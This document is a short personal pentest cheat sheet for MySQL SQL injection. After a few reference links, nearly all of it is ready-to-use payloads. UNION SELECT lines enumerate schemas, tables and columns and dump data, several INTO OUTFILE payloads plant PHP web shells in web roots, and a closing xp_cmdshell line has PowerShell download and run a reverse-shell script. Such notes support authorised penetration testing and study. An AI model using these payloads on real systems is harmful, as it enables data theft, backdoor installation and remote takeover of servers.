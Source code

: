 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Check out:
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/

https://www.exploit-db.com/papers/13650

[https://www.imperva.com/learn/application-security/sql-injection-sqli/](https://www.imperva.com/learn/application-security/sql-injection-sqli/)

![[Pasted image 20220712135953.png]]


Retrieve database version:
```SQL
UNION ALL SELECT NULL, version() -- -
```

List the databases:

```SQL
UNION ALL SELECT NULL, concat(schema_name) FROM information_schema.schemata -- -
```

Retrieve table names:

```SQL
UNION ALL SELECT NULL, concat(table_name) FROM information_schema.TABLES WHERE table_schema=database() -- -
```

Retrieve column names:

```SQL
UNION ALL SELECT NULL, concat(column_name) FROM information_schema.COLUMNS WHERE table_schema=database() -- -
```

Retrieve data:

```SQL
UNION ALL SELECT NULL, (0x28, column1, 0x3a, column2, 0x29) FROM table1 -- -
```

Retrieve data from different database:

```SQL
UNION ALL SELECT NULL, (0x28, column1, 0x3a, column2, 0x29) FROM databaseName.table1 -- -
```

#### Using INTO OUTFILE to create a malicious PHP file:
```SQL
http://$TARGET/debug.php?id=1 union all select 1,2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

```SQL
http://$TARGET/debug.php?id=1 UNION SELECT '<?php echo shell_exec($_GET[\'cmd\']); ?>', null INTO OUTFILE '/var/www/cmd.php' #
```

```SQL
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -' 
```

#### Windows box cmdshell trick:
```SQL
xp_cmdshell "powershell -IEX(New-Object Net.WebClient).DownloadString('http://$TARGET/Invoke-PowerShellTcp.ps1')"
```
